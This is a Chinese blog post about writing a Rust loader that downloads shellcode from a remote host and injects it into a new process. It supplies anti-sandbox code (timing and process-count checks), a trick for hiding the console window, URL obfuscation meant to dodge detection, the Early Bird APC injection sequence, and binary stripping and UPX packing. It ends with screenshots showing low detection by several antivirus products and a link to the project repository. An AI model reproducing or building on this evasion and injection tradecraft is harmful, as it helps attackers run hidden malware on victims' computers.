 ```yaml
---
layout: post
title: 'Rust远程加载shellcode'
date: "2025-01-05T00:39:27Z"
---
```

Rust远程加载shellcode
=================

> 学习rust, 练习写一个loader, 不足之处还请指教

编写
--

### 隐藏黑框

在注释掉所有打印语句后编译运行还是会弹黑框, 解决方法是头部添加一行（指定 Rust 编译器生成的可执行文件为 Windows 子系统应用程序，而不是控制台应用程序）:

    #![windows_subsystem = "windows"]
    

‍

### 反沙箱

流速检测

    pub fn ft() {
        use std::time::{Duration, Instant};
        use std::thread::sleep;
    
        let start_time = Instant::now();
    
        sleep(Duration::from_millis(5000));
    
        let elapsed_time = start_time.elapsed();
    
        if elapsed_time.as_millis() < 5000 {
            std::process::exit(1);
        }
    }
    

检查进程数

    pub fn pc() {
        let mut system = System::new_all();
        system.refresh_all();
        let process_count = system.processes().len();
    
        if process_count <= 50 {
            std::process::exit(1);
        }
    }
    

‍

### 网络请求

使用轻量级的HTTP库`ureq`​, 示例如下：

    use ureq;
    
    fn main() {
        let response = ureq::get("https://example.com/file.zip")
            .call()
            .expect("Failed to make request");
    
        if response.status() == 200 {
            let content = response.into_string().expect("Failed to read response");
            println!("Downloaded file: {}", content);
        } else {
            eprintln!("Failed to download file, status code: {}", response.status());
        }
    }
    
    

不要直接硬编码url在代码中，然后就用管用伎俩简单编码一下，但是一整个解码使用居然不成， 问gpt说可能产生了不可见字符

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172710480-956979794.png)​

拆成protocol，host, port, pattern后解码组合就可以正常读取了， DIE中也没有检出（这个patcher还是要处理一下）

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172713323-2064285237.png)​

‍

### 加载shellcode

这里我没有对shellcode进行任何处理, 获取之后直接使用`Early Bird`​进行注入, 简述一下过程:

1.  使用 `CreateProcessA`​ 创建一个进程。
2.  使用 `VirtualAllocEx`​ 在目标进程中分配远程内存。
3.  使用 `WriteProcessMemory`​ 将 SHELLCODE 复制到已分配的内存中。
4.  使用 `VirtualProtectEx`​ 更改内存权限为可执行。
5.  使用 `QueueUserAPC`​ 执行进程。
6.  使用 `ResumeThread`​ 恢复进程的线程。
7.  使用 `CloseHandle`​ 关闭已打开的句柄。

对于错误处理一律退出不使用panic, 可以在代码中细看。

### 编译优化

为了缩小体积, 在`_config.yml`​中添加

    [profile.release]
    # 设置为1个块最大化优化，但时间会更长
    codegen-units = 1
    # 设置为s时，编译器会优先考虑生成最小的二进制文件大小，同时保持合理的性能
    opt-level = "s"
    # 链接时优化，可以显著减小二进制文件的大小，并提高性能
    lto = true
    # 禁止符号表和调试
    debug = false
    # 剥离调试信息
    strip = true
    # 崩溃时不希望看到调试信息
    panic = "abort"
    

另外使用压缩库`miniz_oxide`​，添加上依赖：

    [dependencies]
    miniz_oxide = "0.5"
    

最后使用release 通用发布：

    cargo build --release
    

使用`cargo-strip`​在构建后剥离二进制文件中的调试信息和其他不必要的数据。

    cargo install cargo-strip
    cargo strip -t target/release/RustLoader.exe
    

此时大小基本为1.5MB, 也可以继续upx压缩(patcher要注意处理一下)， 之后按需加资源

    upx -9 --best --force target/release/RustLoader.exe
    

‍

免杀效果
----

添加反沙箱后, 无法在虚拟机中测试, 以下测试均使用直接生成的产物(不使用upx, upx-patcher, 反沙箱), 截止测试之时:

微步检出率为`1/28`​

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172716375-191520426.png)​

火绒

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172748521-1038769600.png)​

腾讯电脑管家

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172810312-76404917.png)​

360

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172834266-1728598070.png)​

defender

​![image](https://img2023.cnblogs.com/blog/3038812/202501/3038812-20250104172857680-251218996.png)​

‍

如果觉得可以欢迎star一起交流~ ： [传送门](https://github.com/BKLockly/RustLoader)

‍